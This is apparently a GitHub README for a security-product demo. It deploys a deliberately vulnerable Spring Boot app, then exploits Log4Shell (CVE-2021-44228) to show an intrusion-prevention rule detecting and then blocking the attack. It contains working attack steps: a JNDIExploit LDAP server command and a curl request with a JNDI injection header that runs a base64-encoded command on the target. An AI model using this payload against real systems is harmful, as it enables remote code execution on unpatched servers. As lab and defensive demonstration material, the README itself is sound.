







# Cloud One - Workload Security Log4Shell
This repo contains a quick deployment template to showcase CVE-2021-44228 LOG4SHELL exploit and Workload Security Intrusion Prevention

## Deploy CloudFormation Template

Parameters to Define:
- **KeyPair**: Name of a current Key Pair
- **IPforSSH**: restrict SSH access to your IP. Default is 0.0.0.0/0

[](https://console.aws.amazon.com/cloudformation/home#/stacks/new?stackName=c1-ws-log4shell&templateURL=https://aws-workshop-c1as-cft-templates.s3.amazonaws.com/c1-ws-log4shell.yaml)



---

## After CloudFormation Template Deployment

## 1. SSH into EC2 instance(Shell A)
    ```bash
    sudo su
    <Deploy Workload Security Agent deployment script with Linux Policy attached.>
    ```
    

## 2. In Cloud One-WS: Assign IPS rule for CVE-2021-44228 to linux machine
    - IPS rule number: **1011242**
    - Assign rule and change to **Detect Only** for now.
    - Accept all rule dependencies.
    
    
    
    

---

## 3. Start docker app(Shell A)

```bash
cd log4shell-vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```


---

## 4. Open Second SSH session(Shell B) and run command to create LDAP server
* [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) provided by feihong-cs before it was removed from GitHub.
```bash
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

## 5. Run Exploit
- Open new SSH session(Shell C)

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```
Notice the output(Shell B) of JNDIExploit, showing it has sent the malicious LDAP response and served the second-stage payload:



---

## 6. Confirm RCE was successful with the creation of pwned.txt file inside the running container's /tmp directory. 
- Using Shell C

```bash
docker exec vulnerable-app ls /tmp
```


---

## Repeat attack this time with IPS rule set to **Prevent**


<hr>

## Reference
Thank you [christophetd](https://github.com/christophetd/log4shell-vulnerable-app) for providing the vulnerable Spring Boot web application.
